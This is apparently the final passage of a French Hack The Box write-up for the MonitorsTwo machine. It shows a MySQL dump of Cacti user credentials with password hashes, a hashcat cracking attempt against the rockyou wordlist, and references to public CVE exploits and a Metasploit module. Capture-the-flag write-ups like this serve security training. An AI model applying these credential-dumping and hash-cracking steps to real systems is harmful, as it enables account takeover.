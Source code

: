 ```bash
             lastlogin: -1
      password_history: -1
                locked:
       failed_attempts: 0
              lastfail: 0
           reset_perms: 663348655
1 row in set (0.000 sec)

ERROR: No query specified

-Nous pouvons déjà y trouver les information de connexion sur le compte ``admin``

# selection des champs qui nous intéressent (noms et mots de passe):

MySQL [cacti]> SELECT username, password FROM user_auth ;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```

> [Le modificateur `\G` dans le client de ligne de commande MySQL][14].

Nous pouvons maintenant essayer de cracker ces hash sur notre machine en utilisant d'abord le mode de détection automatique de ``hashcat`` pour déterminer le type de hachage :


```bash
┌──(raizen㉿Raizen)-[~]
└─$ cat hashes
admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
# En utilisant le mode d'auto  detection
┌──(raizen㉿Raizen)-[~]
└─$ hashcat hashes /usr/share/wordlists/rockyou.txt --username
hashcat (v6.2.6) starting in autodetect mode

<SNIP>

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+========================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Fri Jan 26 06:42:36 2024
Stopped: Fri Jan 26 06:42:38 2024
```


[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png